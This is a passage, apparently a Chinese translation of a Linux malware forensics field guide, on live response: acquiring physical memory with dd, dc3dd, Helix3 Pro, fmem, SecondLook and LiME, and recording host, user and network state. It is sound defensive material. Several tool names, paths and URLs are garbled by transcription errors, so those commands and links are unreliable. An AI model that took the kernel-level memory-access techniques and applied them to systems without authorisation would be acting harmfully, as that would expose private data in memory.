- 计算输出文件的加密校验和（例如 MD5 哈希值），用于文档记录和未来的完整性验证。

> **注意：**
> 1. `dd` 命令是大多数 Linux 发行版自带的，通常用于转换和复制文件。
> 2. 由美国国防部网络犯罪中心的专业开发人员编写的 `dc3dd` 是 GNU `dd` 的修补版本，专门用于数字取证和安全领域（<http://sourceforge.net/projects/dc3dd/>）。
> 3. 有关 `/dev/mem` 和 `/dev/kmem` 的更多信息，请参阅 Linux 程序员手册/man 页面条目中的 mem，Linux man-pages 项目第 3.24 版以及由伯克利大学维护的 UNIX man-pgs，<(http://man-pages.mono.bt.net/cgi-bin/man-cgi?mem>3)。

### 使用 `memdumper` 获取物理内存

`memdumper` 实用程序是获取系统内存的替代命令行实用程序。

- 尽管在 Linux 系统上使用 `dd` 和 `c3dd` 获取 `/dev/mem` 的内容通常有效，但某些 Linux 和 UNIX 系统对物理内存的处理方式不同，导致在使用 `dd` 命令时结果不一致或信息丢失。
- Coroner’s toolkit 中的 `mimdumper` 命令解决了这些问题，并可用于将物理内存的内容保存到文件中，如图 1.4 所示。

```bash
$ /media/cdrom/Linux-IR/memdumper > /media/IR/memory/host_mimdumper
```

**图 1.4**—使用 memdump 获取物理内存。

> **注意：**
> 4. Farmer V. <http://www.porcupine.org/forensics/forensic-discovery/appendingA.html> © 2004。
> 5. 由 Dan Farmer 和 Wieste Venema 开发的 Coroner’s Toolkit（TCT）是一组用于分析 Linux/UNIX 系统的取证程序，<http://www.porcupine.org/forensics/tct.html>。

### 收集 /proc/kcore 文件

Linux 系统（以及其他现代版本的 UNIX）有一个“`/proc`”目录，其中包含一个虚拟文件系统，其中的文件代表内核的当前状态。

- 文件 `/proc/kcore` 包含以 ELF 格式存储的物理内存中的所有数据。
- 除原始内存转储外，还应收集此文件的内容，因为 `/proc/kcore` 中 ELF 格式的数据可以使用 GNU 调试器（`gdb`）进行检查。在图 1.5 中，使用 `dc3dd` 获取 `kcore` 文件的内容。

```bash
$ /media/cdrom/Linux-IR/dc3dd if=/proc/kcore of=/media/IR/memory/host_kcore
```

**图 1.5**—使用 dc3dd 获取 /proc/kcore 的内容。

### 基于 GUI 的内存转储工具

#### 使用 Helix3 Pro 获取物理内存

Helix3 Pro 是一个数字取证工具套件 CD，提供活动响应和可启动取证环境两种功能。

- 活动响应实用程序为数字调查员提供了直观的图形界面和简化的手段来获取受检系统的物理内存。
- Helix3 Pro 通过对 `/dev/mem` 字符设备文件进行镜像来从受检系统获取物理内存。
- 加载 Helix3 Pro CD 后，导航到 Linux 目录并调用 `helix3pro` 二进制文件以启动程序。
- 如**图 1.6**所示，首先选择物理内存作为要获取的设备（1）。使用“Acquire Device”功能（2），描绘为硬盘和绿色箭头按钮。
- 选择“Image to Attached Device”（3）作为获取数据的目的地，并选择所需的接收设备（4）。选择设备后，按下“Start Acquisition”按钮（5）。
- 当从受检系统镜像内存时，将显示进度条（**图 1.7**），显示镜像进程的状态。



**图 1.6**—Linux 的 Helix3 Pro 活动响应用户界面。



**图 1.7**—在对受检系统物理内存进行镜像期间的 Helix 进度条。

### 记录 /proc/meminfo 文件的内容

在收集物理内存后，收集关于内存状态和使用的详细信息。

- 回忆一下，/proc 目录包含一个虚拟文件系统，其中的文件代表内核的当前状态。
- 为了妥善记录，请收集存储在 /proc/meminfo 中关于内存的信息，如图 1.8 所示。这些信息对于确定在出于取证目的获取时，内存量是否能放入可用的可移动存储介质中很有用。提前知道需要更大的存储介质比在获取过程进行到一半时空间耗尽要好。

```bash
# /media/cdrom/Linux-IR/cat /proc/meminfo
total:        used:        free:      shared:     buffers:   cached:
Mem:  261513216  76623872  184889344         0  20226048
Swap:  148013056  255384 kB  0 148013056
MemTotal:        255384 kB
MemFree:         180556 kB
MemShared:           0 kB
Buffers:          19752 kB
Cached:           34116 kB
SwapCached:           0 kB
Active:           59128 kB
Inact_dirty:       948 kB
Inact_clean:      280 kB
Inact_target:    12068 kB
HighTotal:           0 kB
HighFree:             0 kB
LowTotal:        255384 kB
LowFree:         180556 kB
SwapTotal:       144544 kB
SwapFree:        144544 kB
Committed_AS:    4482412 kB
```


### 分析提示：内存的其他区域

计算机上还有其他类型的基于设备的 RAM，例如视频卡上的内存，恶意软件未来可能会利用这些区域。Linux 系统上的固件也可以被替换。然而，不要仅仅因为入侵者在通过原始安装介质格式化并重建系统后重新获得访问权限，就得出入侵者正在利用这些区域的结论。应首先考虑更简单、更可能的解释。虽然在大多数恶意软件事件中获取这些区域并非必要，但值得考虑。


## 调查考量

在获取 RAM 内容时，仔细记录并比较各种实用工具报告的数据量。

Linux 内存取证技术尚处于发展的早期阶段，该领域仍有待进一步研究的方面。因此，数字取证调查人员在获取易失性数据时需保持警惕，以便在出现异常时能迅速采取措施。

## 远程物理内存获取

-  可将目标系统的物理内存转储通过网络保存到远程位置。
-  如前所述，Helix3 Pro 是一套数字取证工具套件 CD，它为数字取证调查人员提供了一个直观的图形界面和用户友好的手段，用于对目标 Linux 系统的物理内存进行成像。
-  除了将内存镜像到本地存储设备外，Helix3 Pro 还提供了一个通过网络将内存内容保存到远程位置的解决方案，即“Helix3 Pro 镜像接收器”——一个可图形化配置的网络监听器，用于接收从 Helix3 Pro 通过网络传输的数据。
-  在远程检查系统上，运行 Helix3 Pro 镜像接收器程序（`.receiver`）。
-  一旦 CD-ROM 插入正在运行的 Linux 系统，你可以访问位于 `/Linux/receiver` 的接收器程序，并通过桌面 GUI 或从命令行使用 `.receiver` 启动它。如果你使用的是自己的可移动媒体，程序的执行将取决于你放置 `receiver` 可执行文件的路径。
-  启动程序后，数字取证调查人员将看到一个用于配置远程数据获取的 GUI，如图 1.9 所示。

### 配置 Helix3 Pro 镜像接收器：检查系统

-  选择物理内存镜像将被复制到的目标位置 (1)。传输使用的默认端口 (2) 为 8888，但可以修改。
-  选择一个密码（可选）(3)（注意：这是传输的连接密码，而不是用于加密内存转储文件内容的密码）。
-  选择数据传输时的分段大小。
-  检查系统的 IP 地址会显示在用户界面中，以供参考和确认。
-  要在接收器上开始监听连接，请单击“监听连接”按钮。



图 1.9—Helix3 Pro 镜像接收器。



图 1.10—通过 Helix3 Pro 接收器进行数据传输。

-  一旦数据从目标系统传输（将在下一节中讨论），传输进度将显示在界面的底部查看窗格中（在图 1.9 中标记为项目 7，并在图 1.10 中进一步展示）。

### 配置 Helix3 Pro 通过镜像接收器传输：目标系统

-  从目标系统运行 Helix3 Pro 程序（`./helix3pro`）；该二进制文件位于挂载的 cd-rom 上的 `/Linux/helix3pro` 目录中。^6
-  启动程序后，数字取证调查人员将看到 Helix3 Pro GUI（图 1.11）。
-  在内存窗口中选择显示的物理内存 (1)。选择后，设备属性（`/dev/mem`）将显示在右侧查看窗格中（图 1.12）。
-  要获取内存 (2)，“获取设备”按钮显示为一个带有绿色箭头的硬盘图标。GUI 的右侧为数字取证调查人员提供了配置选项。
-  如图 1.11 所示，要在网络上远程传输获取的内存，请使用下拉菜单 (3) 选择“镜像到 Helix3 Pro 接收器”，并 (4) 选择获取镜像的目标文件夹。



**图 1.11**—配置 Helix3 Pro 以远程获取物理内存。

^6 Helix3 Pro 用户手册建议：“由于大小限制，Helix3 Pro 不再包含许多 Linux、Solaris、Macintosh 和 Windows 的静态二进制文件。相反，所有静态二进制文件现在都位于 `<http://forums.e-forensx.com>` 的论坛上，你可以随时按需下载。”此外，Helix3 Pro Linux 二进制文件是 32 位的，无法在 64 位 Linux 系统上正确执行。



> 图 1.12—使用 Helix3 Pro 显示物理内存（dev/mem）的属性。



> 图 1.13—启动远程内存获取。

-  要配置目标系统的网络连接，请选择“设置”按钮（图 1.13）。在配置界面（图 1.14）中，输入与检查系统上建立的接收器相符的 IP 地址、端口号和密码。
-  设置好参数后，选择“开始获取”（图 1.13）。将显示一个进度条，显示成像过程的状态。

> 💡 诸如 F-Response、ProDiscover 和 FTK 等其他远程取证实用工具具有从 Linux 系统远程获取物理内存的一定能力，这些将在本书末尾的工具箱部分中讨论。



图 1.14—网络配置界面。

## 其他获取物理内存的方法

-  为了增强安全性并阻碍 rootkits，较新版本的 Linux 中 `/dev/mem` 设备文件已被限制为有限的内存地址范围，因此需要使用内核模块来获取完整的内存内容。
-  一些有用的自定义内核模块解决方案可用于完成此任务，包括 Fmem、SecondLook 和 Linux 内存提取器（LiME）。
-  请注意，内核的差异可能会导致自定义内核模块变得不稳定或不可靠，如果它们不是在与被检查的受损系统版本相同的 Linux 版本上编译的话。

> 分析提示
> 内存获取内核模块
> 为了使用这些内存获取工具，必须在与被获取系统相同或相似的系统上编译相关的内核模块。在某些情况下，组织可能通过事先在事件发生前编译这些工具来为事件响应做准备。当这种情况不存在时，可以在类似于目标系统的计算机上，或在配置为类似目标系统的虚拟机上编译和测试这些工具。

^7 有关 Fmem 的更多信息，请访问 <http://hyzterix.sk/–niektt/forian/i/mem_current.tgz>。

^8 有关 SecondLook 内存获取脚本的更多信息，请访问 <http://secondlookforensics.com/>。

^9 有关 Linux 内存提取器（LiME）的更多信息，请访问 <http://code.google.com/p/lime-forensics/>。

```
# /media/cdrom/Linux-IR/run.sh

Module: insmod fnem.ko a1=0xc00128d0 : OK
Device: /dev/fnem
---Memory areas: ----
reg00: base=0x00000000 ( 0MB, size= 1024MB, count=1: write-back
reg01: base=0xd00000000 ( 3328MB, size= 128MB, count=1: write-combining
----
!!! Don't forgot add "count=" to dd !!!

date; time dd if=/dev/fnem of=/media/IR/fnem-dump.bin bs=1024x1024 count=1152
conv=sync; date
Tue.Jun 5 02:45:19 GMT 2012
1152+0 records in
1152+0 records out
1207959552 bytes (1.2 GB) copied, 448.649 s, 2.7 MB/s
0.00user 104.63system 7:28.64elapsed 23%CPU (5avgtext+0avgdata 0maxresident)k
88inputs+235926outputs (1major+67minor)1pagefaults 0swaps
Tue.Jun 5 02:52:53 GMT 2012
```

**图 1.15—** *使用 fnem 获取物理内存。*

-  `fnem` 内核模块通过创建一个名为 `/dev/fnem` 的新设备来绕过 `/dev/mem` 设备文件的限制，该设备提供对完整内存内容的访问，如**图 1.15**所示。当无法从可移动媒体运行此过程时，必须修改 `run.sh` 脚本以设置模块和输出文件的期望路径。^10
-  如上述 `fnem` 输出所示，如果未指定内存量，则 `dd` 将继续尝试读取更高的地址范围，即使系统中没有更多的物理 RAM。因此，使用 `dd` 的 `count` 参数指定要获取多少内存非常重要。计数值是加载 `fnem` 模块时报告的内存空间总数（以 MB 为单位）（即上述示例中的 1024 MB + 128 MB = 1152 MB）。

^10 有关 `/dev/fnem` 的更多信息，请参见 Kollar K, Forensic RAM dump image analyser, Master's Thesis, Charles University in Prague, <http://hysterial.sbk > ~mlek0foriana/doc/foriana.pdf>; 2010.


### Linux 内存取证工具

另一款名为 SecondLook 的工具为 Linux 提供了内存获取和分析功能。默认情况下，SecondLook 套件尝试通过 /dev/crash 驱动程序获取内存，该驱动程序在基于 Red Hat 的系统（包括 Fedora 和 CentOS）中很常见（使用“modprobe crash”加载）。

```bash
# /media/cdrom/Linux-IR/insmod /media/cdrom/Linux-IR/pmad.ko
$ /media/cdrom/Linux-IR/secondlook-memdump /media/IR/memdump.bin /dev/pmad
Second Look (r) Release 3.1.1 - Physical Memory Acquisition Script
Copyright (c) 2010-2012 Raytheon Pikeswrxs Corporation
All rights reserved.
Reading RAM-backed physical address ranges from /proc/iomem...
Dumping pages 16 to 158...
Executing: /media/cdrom/Linux-IR/dc3dd if="/dev/pmad" of="/media/IR/memdump-pmad.bin" bs=4096 seek=16 skip=16 count=143
143+0 records in
143+0 records out
585728 bytes (586 kB) copied, 0.00257154 s, 228 MB/s
Dumping pages 256 to 261871...
Executing: /media/cdrom/Linux-IR/dc3dd if="/dev/pmad" of="/media/IR/memdump-pmad.bin" bs=4096 seek=256 skip=256 count=261616
<cut for brevity>
```



或者，SecondLook 提供名为 pmad 的物理内存访问驱动来获取内存，如图 1.16 所示。为了避免在被入侵系统上运行 /bin/dd 的版本，请编辑 secondlook-memdump 脚本，使其调用受信任的 dd 版本。

图 1.16 中的操作显示在运行 SecondLook 获取内存之前先加载了定制的 pmad 内核模块。为了避免获取与 RAM 无关的内存地址，该获取过程仅获取完全包含在 /proc/iomem 中与物理 RAM（标记为“System RAM”）相关的内存地址范围内的完整页面（该系统的页面大小为 4096 字节）。为了补偿原始系统中 RAM 物理寻址中的间隙，pmad 的输出存储在“填充”文件格式中，以确保文件中的物理位置与原始系统中的物理地址相同。

另一款名为 LiME 的 Linux 内存获取工具已被开发出来，以支持更多种类的 Linux 系统，包括运行 Android 的系统。使用 LiME 模块获取内存是通过加载该模块并指定输出路径来发起的，如图 1.17 所示。

```bash
#/media/cdrom/Linux-IR/insmod /media/cdrom/Linux-IR/lime.ko "path=/media/IR/memdmp-lime.bin format=padded"
```

**图 1.17**—使用 LiME 从可移动 USB 设备获取物理内存，输出保存为填充格式。

LiME 的输出文件对应于 /proc/iomem 文件中的“System RAM”条目。目前存在三种输出格式：raw、padded 和 lime，其中 padded 输出与 SecondLook 相同，并且是 Linux 内存取证工具最普遍接受的格式。LiME 格式在文件头部存储地址信息，消除了填充的需要，从而导致较小的文件大小。

> **分析提示**
> **远程内存分析**
>
> 在某些恶意软件事件中，希望在一个企业环境中的多个 Linux 系统的内存中寻找恶意代码的迹象。一种方法是结合使用 F-Response 和 Volatility 工具，查看远程系统内存中是否有恶意篡改的迹象。另一种方法是使用 SecondLook 的企业安全版，它具备远程检查功能。可以使用 SecondLook 命令行或 GUI 从运行 SecondLook 代理和 pmad 内核模块的远程系统中提取内存信息。
>
> 用法：`secondlook-cli -a -t secondlock@malin.malwareforensics.com:22`
>
> 关于使用 Volatility 和 SecondLook 在内存中寻找恶意代码的详细覆盖内容见《Linux 系统恶意软件取证现场指南》第 2 章（内存取证）。

## 收集目标系统详细信息

*系统详细信息为现场响应和事后取证过程提供背景，建立调查时间线，并在日志和其他取证工件中识别目标系统。*

获取以下目标系统详细信息：

- 系统日期和时间
- 系统标识符
- 网络配置
- 系统正常运行时间
- 系统环境
- 系统状态

### 系统日期和时间

从目标系统获取物理内存镜像后，在现场响应检查过程中应收集的第一项和最后一项内容是系统日期和时间。这些信息将作为你调查时间线的基础——为你的系统分析提供背景——以及检查的文档记录。

在 Linux 系统上运行静态编译的 date 命令版本将显示时钟设置，包括时区，如图 1.18 所示。

```bash
# /media/cdrom/Linux-IR/date
Wed Feb 20 19:44:23 EST 2011
```

**图 1.18**—使用 date 命令收集系统日期和时间。

在记录目标系统的日期和时间后，将它们与可靠的时间源进行比较，以验证信息的准确性。

识别并记录任何差异，以便与你发现的其他工件的日期和时间戳进行比较。

### 系统标识符

除了收集系统日期和时间外，在开始现场响应检查之前，尽可能多地收集目标主机的系统识别和状态信息，包括：

- **物理标识符**—记录系统的序列号、制造商、型号以及任何其他唯一标识系统并为收集的信息提供背景的系统物理属性。
- **主机名**—使用 hostname 命令记录系统名称。拥有目标系统的主机名对于区分与本地或远程系统相关的数据很有用，例如日志和配置文件中的条目（图 1.19）。

```bash
# /media/cdrom/Linux-IR/hostname
victim13.<domain>.com
```

**图 1.19**—使用 hostname 命令。

- **用户名**—除了识别目标系统的主机名外，还使用 whoami、logname 和 id 命令确定系统中的当前有效用户（图 1.20 和 1.21）。

```bash
# /media/cdrom/Linux-IR/whoami
bentley
```

**图 1.20**—使用 whoami 命令。

```bash
# /media/cdrom/Linux-IR/logname
bentley
```

**图 1.21**—使用 logname 命令。

- id 命令提供有关当前用户的其他详细信息，包括 uid、gid 以及用户所属的组，如图 1.22 所示。

```bash
# /media/cdrom/Linux-IR/id
uid=1000(bentley) gid=1000(bentley) group=1000(bentley),4(adm),20(dialout),24(cdrom),46(plugdev),111(lpadmin),119(admin),122(sambashare)
```

**图 1.22**—使用 id 命令收集当前用户的用户和组信息。

### 网络配置

在记录目标系统配置时，要留意异常项目。

- 查找配置了虚拟专用网络（VPN）适配器但不合法使用 VPN 的系统。
- 确定目标系统的网卡是否处于*混杂模式*，这通常表示正在运行嗅探器。
- 使用*ifconfig*记录目标系统网卡的 IP 地址和硬件地址，这提供了用于分析日志和配置文件的调查背景，如图 1.23 所示。



**图 1.23**—使用 ifconfig 记录目标系统的网络配置。

- 上述 ifconfig 输出中存在的“PROMISC”表明网卡已被嗅探器置于混杂模式。
- 如果正在运行嗅探器，请使用 lsof 命令定位嗅探器日志，并如本书后续章节所述，检查日志中是否有其他被入侵账户和计算机的迹象。

### 系统正常运行时间

- 使用 uptime 命令确定目标系统已运行了多长时间，即系统正常运行时间。
- 建立系统运行时长有助于数字调查人员了解系统最近一次重启的时间。
- uptime 命令还显示系统在开机期间繁忙程度。当检查系统上的活动时，包括正在运行的进程，此信息可能很有用。
- 知道目标系统在安装恶意软件后没有重启可能很重要，这将促使数字调查人员更仔细地查找内存中可能被销毁的已删除进程和其他信息。
- 要确定系统正常运行时间，请从你受信任的工具包中调用 uptime 实用工具，如图 1.24 所示。


**图 1.24**—使用 uptime 命令查询系统。


## 系统环境

- 在对 Linux 系统进行调查时，记录目标系统的一般详细信息（包括操作系统版本、内核版本、主目录和桌面环境）是很有用的。

- 系统环境信息可能显示系统已过时，因此容易受到某些攻击的影响。

- 可以使用 `uname` -a 命令获取一组简洁的系统环境描述符（-a 标志表示“所有信息”），该命令显示以下内容：
  - 内核名称
  - 网络节点主机名
  - 内核发行版
  - 内核版本
  - 机器硬件名称
  - 处理器类型
  - 硬件平台
  - 操作系统（图 1.25）

- 通过使用 `printenv` 和 `env` 命令（图 1.26），可以获得目标系统环境和状态的详细快照，其中包含上述部分详细信息。

```text
# /media/cdrom/Linux-1R/uname -a
Linux ubuntu 2.6.35-22-generic #33-Ubuntu SMP Sun Sep 19 20:34:50 UTC 2010 i686 GNU/Linux
```

**图 1.25**—使用 `uname` -a 命令收集系统环境信息。

```text
# /media/cdrom/Linux-1R/printenv
[excluded for brevity]
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
PWD=/home/bentley
GDM_KEYBOARD_LAYOUT=us
LANG=en_US.UTF-8
GNOME_KEYRING_PID=2355
GDM_LANG=en_US.UTF-8
GDMSESSION=gnome
SPEECHD_PORT=7540
SHVL=1
HOME=/home/bentley
GNOME_DESKTOP_SESSION_ID=this-is-deprecated
LOGNAME=victim13
malwareforensics.com
DISPLAY=:0.0
XAUTHORITY=/var/run/gdm/auth-for-victim13-HhRHU/database
_=/usr/bin/printenv
```

**图 1.26**—使用 `printenv` 命令收集的部分系统环境信息。

- 操作系统和内核的版本对于执行内存取证和其他分析任务至关重要。

- /proc/version 文件中还包含额外的版本信息以及一些额外细节，例如编译器版本，如图 1.27 所示。

```text
# /media/cdrom/Linux-1R/cat /proc/version
Linux version 2.6.35-22-generic (buildd@otherbox) (gcc version 4.4.5 (Ubuntu/linaro 4.4.4-14ubuntu2)) #31-Ubuntu SMP Sun Sep 19 20:34:50 UTC 2010
```

**图 1.27**—从 /proc 收集系统版本详细信息。

### 调查考虑事项

- “/proc” 目录中还提供了有关系统环境的更多信息，包括“/proc/cpuinfo”中关于 CPU 的细节以及“/proc/cmdline”中用于启动内核的参数。

## 系统状态

- 收集有关目标系统状态的信息，以观察与目标系统上的恶意软件相关的活动。

- 当启用账户审计时，`sa` 命令提供系统中已执行命令的摘要。例如，图 1.28 显示了 `sa` 命令的输出，其中包含安装新应用程序的条目、可能未经授权的添加新用户账户的条目，以及与后门安装相关的可疑 `tar` 和 `irpd` 命令。

```text
# /media/cdrom/Linux-1R/sa

 1421    1082.14re      2.72cp    0avio      1119k    ssh
   17      44.42re       1.74cp    0avio      1341k    ssh
   14       7.93re       0.65cp    0avio       552k     scp
   28      27.28re       0.04cp    0avio       859k     ** */other*
   13      274.87re      0.04cp    0avio         0k     kworker/0:2*
   12     203.87re       0.04cp    0avio         0k     kworker/0:2*
   13     203.11re       0.03cp    0avio         0k     kworker/0:0*
    3       0.58re       0.01cp    0avio      2035k    apt-get
   21       0.04re       0.02cp    0avio      1846k    ddpkg
    7       4.97re       0.01cp    0avio      1323k    vi
   25       6.20re       0.01cp    0avio      1097k    sudo
   11      39.54re       0.00cp    0avio      1115k    man
    9       0.02re       0.00cp    0avio       865k    rm
   13       2.32re       0.00cp    0avio       919k    openvpn
    6      10.54re       0.00cp    0avio       471k    irpd*
    4       0.02re       0.00cp    0avio      5948k    netstat
    3       0.02re       0.00cp    0avio      1039k    make
    2       0.00re       0.00cp    0avio       871k    tar
    4       0.00re       0.00cp    0avio      1138k    useradd*
*extracted for brevity
```

**图 1.28**—使用 `sa` 命令显示的账户审计摘要。

```text
# /media/cdrom/Linux-1R/sar -r -n DEV

Linux 2.6.38-8-generic (ubuntu)  06/08/2012  _i686_ ( 1 CPU)
03:54:01 PM  LINUX RESTART
03:55:01 PM  CPU     \user      \nice     \system    \iowait    \steal
            idle
04:05:01 PM  all       1.88     0.00      1.69      4.16      0.00
04:27
04:15:01 PM  all       0.67     0.00      0.44      0.34      0.00
98.55
<extracted for brevity>
Average:     all      2.14     0.00      1.95      3.51      0.00
92.40

03:55:01 PM  kbmemfree  kbmemused  \nmemused  kbbuffers   kbcached  kbcommit
kucmmit   kbactive   kbinact
04:05:01 PM     66136   299876     81.93    10648     114740     1117488
305.31    196556     71428
04:15:01 PM     68332   300380     82.07    11076     114744     1117612
305.35    196700     71768
<extracted for brevity>
Average:        54841   307171     83.92    18074     113217     1121255
306.34    201840     73138

03:55:01 PM  IFACE  rpack/s  tpack/s    rxbk/s    txkb/s  rxcmp/s
 txcmp/s   rxmcst/s
04:05:01 PM     lo      0.06      0.06      0.00      0.00      0.00
0.00      0.00
04:05:01 PM   eth0    5515.06   473.33    962.30     31.62      0.00
0.00      0.00
04:05:01 PM   tun0       0.99      0.83      1.09      0.06      0.00
0.00      0.00
04:15:01 PM     lo      0.08      0.09      0.01      0.01      0.00
0.00      0.00
04:15:01 PM   eth0    1756.66   141.25   2542.33      8.90      0.00
0.00      0.00
04:15:01 PM   tun0     254.52    19.74      1.56      1.24      0.00
0.00      0.00
```


- 当系统活动报告器在系统中处于活动状态时，*sar* 命令提供有关 CPU、I/O、内存和网络设备在一段时间内按间隔使用情况的详细信息（默认为每日报告，间隔为 10 分钟）。*sar* 使用的报告数据文件通常存储在 `/var/log/sysstat` 中。

- 图 1.29 中的示例输出分别显示了 CPU 使用情况（*-r*）、内存使用情况（*-r*）和网络设备使用情况（*-n*）。此输出包括关于 VPN 隧道（*tun0* 网络接口）的信息，该接口在该时间段内用于传输数据。可以使用 *-o* 选项将 *sar* 命令的输出保存到文件。

## 识别登录到系统的用户

- 在对目标系统的详细信息进行初步侦察后，识别本地和远程登录到目标系统的用户。

- 识别已登录用户有助于实现多项调查目的：
  - 帮助发现任何登录到已受损系统的潜在入侵者。
  - 识别由于恶意代码事件而向目标系统报告的其他已受损系统。
  - 为内部恶意人员恶意软件事件提供见解。
  - 通过与其他发现的痕迹进行关联，提供额外的调查背景。
  - 获取有关已识别的登录到目标系统的用户的以下信息：
    - 用户名
    - 来源位置（远程或本地）
    - 登录会话的持续时间
    - 用户访问的共享、文件或其他资源
    - 与该用户关联的进程
    - 归因于该用户的网络活动。
  - 在实时响应期间可以部署许多实用工具来识别登录到目标系统的用户，包括 *who*、*w* 和 *users*。这些命令通过查询“utmp”文件提供有关当前登录到系统的账户的信息。“utmp”文件包含一个活动登录会话的简单数据库，其中包含有关每个会话的用户账户、持续时间和来源（控制台或远程主机名/IP 地址）的信息。
  - 使用可信版本的 *who* 获取有关当前登录用户账户的信息，并验证每个会话是否由合法用户建立。
  - 图 1.30 中的输出显示 root 账户在控制台/键盘上登录，而“eco”账户从远程位置连接。

```text
# /media/cdrom/Linux-1R/who
root  tty1  Feb 20 16:21
eco  tty8  Feb 20 16:24  (172.16.215.131)
```

**图 1.30**—使用 *who* 命令识别已登录用户。

[^1]: 输入到“utmp”文件中的相同信息会被追加到“wtmp”数据库中，并且当用户注销时，“wtmp”中的条目会被清除。


## 调查注意事项

-   “utmp” 文件可能会损坏并报告错误信息，因此在调查看似可疑的用户活动时，应付出一些努力来确认相关账户确实已登录到系统中。

## 检查网络连接与活动

目标系统上的网络连接和活动可以揭示有关攻击者连接系统的关键信息，包括攻击者远程数据收集服务器的位置，以及目标系统是否正在向命令与控制结构发送信号（beaconing）等。

在调查潜在被感染和入侵的系统时，请尝试获取有关目标系统网络活动的以下信息：

-   活动的网络连接
-   地址解析协议（ARP）缓存
-   内部路由表

### 调查注意事项

-   除了网络活动分析外，还应对目标系统上的开放端口进行深入检查，包括将端口与相关进程进行关联。端口检查分析将在本书后续章节中讨论。
-   Rootkit（根网器）可以在活动系统中隐藏特定的端口和活动的网络连接。对目标系统内存转储的法证分析可以揭示那些在实时数据收集期间不可见的条目。内存取证在《*Malware Forensics Field Guide for Linux Systems*》（《Linux 系统恶意软件取证现场指南》）第 2 章中有详细涵盖。

### 活动网络连接

-   数字取证调查员应确定当前和最近的网络连接，以确定：(1) 攻击者是否当前连接到目标系统，以及 (2) 目标系统上的恶意软件是否导致系统呼叫外部位置，即向攻击者“电话回家”（phone home），例如加入僵尸网络的命令与控制结构。
-   通常，像僵尸程序、蠕虫和特洛伊木马这样的恶意代码样本会嵌入指令，使其向 Internet 上的某个位置发出呼叫，无论是域名、统一资源定位符（URL）、IP 地址，还是连接到另一个 Web 资源，以加入其他被入侵和被“劫持”系统的集合，并等待负责此次感染的攻击者发出的进一步命令。
-   理解恶意软件如何使用或滥用网络是调查任何恶意软件事件的重要组成部分。
-   最初的攻击载体可能是通过网络，恶意代码可能会定期连接到命令与控制主机以获取指令，并可能操纵目标计算机的网络配置。因此，重要的是检查最近或正在进行的与恶意软件相关的网络活动连接，并检查路由表和 ARP 缓存（本书后续章节将详细讨论）以获取有用信息和操纵迹象。
-   要检查当前的网络连接，常见的方法是在目标系统上使用可信版本的 `netstat` 实用工具。`netstat` 是大多数 Linux 发行版原生的实用工具，用于显示有关目标系统上已建立和“监听”网络套接字连接的信息。¹
-   为了获得结果的粒度，使用 `netstat -anp` 命令进行查询，除了显示目标系统上连接的性质外，它还揭示了：
    -   会话是传输控制协议（TCP）还是用户数据报协议
    -   连接的状态
    -   已连接外部系统的地址
    -   发起网络连接进程的进程 ID 号
-   `netstat` 输出提供可用于搜索日志和其他来源中相关活动的远程 IP 地址，以及目标系统与远程主机通信的进程。
-   例如，在图 1.31 中，粗体行显示了来自 IP 地址 172.16.215.131 到 SSH 服务器的已建立连接。连接是已建立而非超时的这一事实表明该连接是活动的。

```text
# /media/cdrom/Linux-12/netstat -anp

Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address             Foreign Address         State       PID/Program name
tcp   0      0 0.0.0.0:13278         0.0.0.0:*      LISTEN     561/rpc.statd
tcp   0      0 0.0.0.0:33769         0.0.0.0:*      LISTEN     694/aimsed
tcp   0      0 0.0.0.0:5131          0.0.0.0:*      LISTEN     542/portmap
tcp   0      0 0.0.0.0:631           0.0.0.0:*      LISTEN     689/send
tcp   0      0 127.0.0.1:25          0.0.0.0:*      LISTEN     712/sendmail: acsmp
tcp   0      0 172.16.215.129:22    172.16.215.131:48799 ESTABLISHED 1885/ssh
tcp   0      0 172.16.215.129:32775 172.16.215.1:?????  ESTABLISHED 5822/nc
udp   0      0 0.0.0.0:13769         0.0.0.0:*      561rpc.statd
udp   0      0 0.0.0.0:518         0.0.0.0:*      685/dhcldd
udp   0      0 0.0.0.0:511         0.0.0.0:*      542/portmap
Active UNIX domain sockets (servers and established)
Proto RefCnt Type    State                 I-Node PID/Program name    Path
